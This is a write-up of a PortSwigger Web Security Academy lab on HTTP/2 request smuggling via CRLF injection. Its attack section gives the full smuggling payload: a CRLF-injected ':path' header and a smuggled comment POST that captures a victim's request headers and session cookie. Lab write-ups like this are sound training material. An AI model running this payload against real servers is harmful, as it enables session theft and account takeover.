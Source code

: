 # [Lab: HTTP/2 request smuggling via CRLF injection](https://portswigger.net/web-security/request-smuggling/advanced/lab-request-smuggling-h2-request-smuggling-via-crlf-injection)

## Lab

This lab is vulnerable to request smuggling because the front-end server downgrades HTTP/2 requests and fails to adequately sanitize incoming headers.

To solve the lab, use an HTTP/2-exclusive request smuggling vector to gain access to another user's account. The victim accesses the home page every 15 seconds.

If you're not familiar with Burp's exclusive features for HTTP/2 testing, please refer to the documentation for details on how to use them.

## Detected H2.TE

- burpsuite active scan: detected hidden http 2
- burpsuite `HTTP request smuggler` extension: detected `HTTP/2 TE desync v10a h2path`

## Attack

we use request smuggling to induce victim to post comment with the content is the victim's HTTP headers (H2.TE):

- header `:path`:

```http
/ HTTP/1.1^M$
Transfer-Encoding: chunked^M$
x: x
```

- body

```http
0^M$
^M$
POST /post/comment HTTP/1.1^M$
Host: 0a5d00a10347796bc1a91c5a00be00bf.web-security-academy.net^M$
Cookie: session=cX2N19Lqf8CSrmP5oWvVGYP4EVPAHNZe;^M$
Content-Type: application/x-www-form-urlencoded^M$
Content-Length: 808^M$
^M$
csrf=token&postId=3&name=test&email=test%40test.test&website=&comment=
```

wait for about 20 seconds without sending any requests, then go to the comments section:

![victim-session.png](./../img/lab-13-result.png)
